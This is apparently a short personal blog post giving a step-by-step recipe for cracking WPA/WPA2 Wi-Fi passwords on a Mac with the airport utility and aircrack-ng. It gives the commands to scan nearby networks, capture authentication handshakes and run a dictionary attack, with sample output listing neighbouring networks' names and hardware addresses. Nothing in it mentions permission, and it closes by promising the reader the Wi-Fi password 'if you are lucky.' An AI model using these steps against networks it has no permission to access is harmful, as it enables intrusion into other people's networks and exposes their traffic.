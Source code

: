 ```yaml
---
layout: article
blogName: SunJK' Blog 
category: wifi
category_en: wifi
title: aircrack on mac
tags: icmp 
---
```

 
### aircrack on mac with WPA/WPA2


* `airmon-ng` `airodump-ng` `aireplay-ng` doesn't work for mac<br>
* use `airport` on mac to sniff authentication handshake
* type `airport -s` on terminal, find channel of wifi which you wana crack
<pre>
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 TP-LINK_HyFi_16 08:57:00:b8:42:16 -83  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   ChinaNet-PjnC b4:41:7a:b8:0c:e9 -58  11      Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                       Cici_chen d0:c7:c0:1c:ac:60 -51  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          zdcnet 6c:e8:73:3a:2f:cc -88  6,+1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   TP-LINK_99999 20:dc:e6:3c:ff:6c -81  6       N  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       littlepig 00:23:cd:15:fd:2c -89  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        Tenda_XY c8:3a:35:4e:16:01 -64  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                   ChinaNet-6ecG b4:41:7a:b6:c1:5c -68  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 

</pre>

* type `sudo airport en0 sniff 1` to sniff authentication handshake.
* download wifi crack dictionary , type `aircrack-ng -w wifi.txt authen.cap | grep 'handshake'`, find line which handshake count more than 0
<pre>
sunjk:wifi SunJK$ aircrack-ng -w wifi.txt a2.cap | grep 'handshake'
   1  80:71:7A:5A:C5:4C  HG532e-101                WPA (0 handshake)
   2  08:57:00:B8:73:92  TP-LINK_HyFi_16           WPA (1 handshake)
   5  D0:C7:C0:1C:AC:60  Cici_chen                 WPA (0 handshake)
   8  64:09:80:19:44:7F  DDD                       WPA (0 handshake)
</pre>
* type `aircrack-ng -w dic.txt authen.cap` , choose `Index number of target network ` that you found. 
* waiting for result.if you are lucky , you will get wifi password soon.

### External links:
_<http://www.aircrack-ng.org/doku.php?id=wpa_capture>_<br>
_<http://www.aircrack-ng.org/doku.php?id=cracking_wpa>_<br>
_<http://www.hsc.fr/ressources/articles/hakin9_wifi/hakin9_wifi_EN.pdf>_<br>


